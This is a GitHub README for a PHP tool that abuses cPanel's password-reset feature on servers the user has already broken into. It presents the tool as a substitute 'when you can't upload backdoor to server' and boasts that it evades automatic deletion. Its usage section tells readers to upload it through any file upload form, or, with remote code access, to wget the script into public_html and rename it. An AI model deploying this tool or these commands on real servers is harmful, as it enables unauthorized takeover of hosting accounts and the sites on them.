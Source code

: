 # Cpanel Password Reset Tools

[![Build](https://img.shields.io/badge/Supported_OS-Linux-orange.svg)]()
[![undefined](https://img.shields.io/github/v/release/naufalardhani/cpanel-pass-reset.svg)](https://github.com/naufalardhani/cpanel-pass-reset/releases/latest)
[![HitCount](http://hits.dwyl.com/naufalardhani/cpanel-pass-reset.svg)](http://hits.dwyl.com/naufalardhani/cpanel-pass-reset)


An easy tool to reset cpanel password when you can't upload backdoor to server. This tool will be useful only if the password reset feature on cpanel is activated.

How to usage? Check this https://www.naufalardhani.com/2018/10/tutorial-reset-password-cpanel-terbaru.html


<p align="center">
  <img src="https://github.com/naufalardhani/cpanel-pass-reset/blob/master/v2-safari.png" width="700" alt="accessibility text">
</p>


# What are the advantages?
- Can be uploaded to the server without bypass
- It will not be deleted automatically by the server

# How to usage
- You can upload this tool via any file upload form and access it!
- If you have a remote code access, you can write command like this 
1. `cd /public_html`
2. ```wget https://raw.githubusercontent.com/naufalardhani/cpanel-pass-reset/master/web-bassed-v2.php```
3. `mv web-bassed-v2.php cp.php`
4. `Access it site.com/cp.php` 
